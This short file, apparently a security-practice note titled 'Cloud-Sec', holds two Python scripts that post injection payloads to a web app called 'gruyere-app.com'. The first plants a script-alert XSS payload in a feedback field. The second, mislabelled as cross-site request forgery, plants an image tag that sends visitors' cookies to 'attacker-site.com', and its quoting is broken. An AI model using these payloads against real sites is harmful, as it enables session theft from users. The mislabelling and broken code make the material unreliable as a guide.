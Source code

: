 # Cloud-Sec
create code that can automatically exploit its documented vulnerabilities.

**Python Code for Cross-Site Scripting**

import requests
payload = "<script>alert('XSS Attack!');</script>" 
document_id = "your-document-id"
url = f"http://gruyere-app.com/feedback?id={document_id}" 
data = {"feedback": payload} 
response = requests.post(url, data=data)
print(response.text)

**Python Code for Cross-Site Request Forgery**

import requests
payload = '<img src="http://attacker-site.com/steal?cookie=" + document.cookie + '">';' 
url = "http://gruyere-app.com/settings" 
data = {"description": payload} 
response = requests.post(url, data=data)
print(response.text)
  
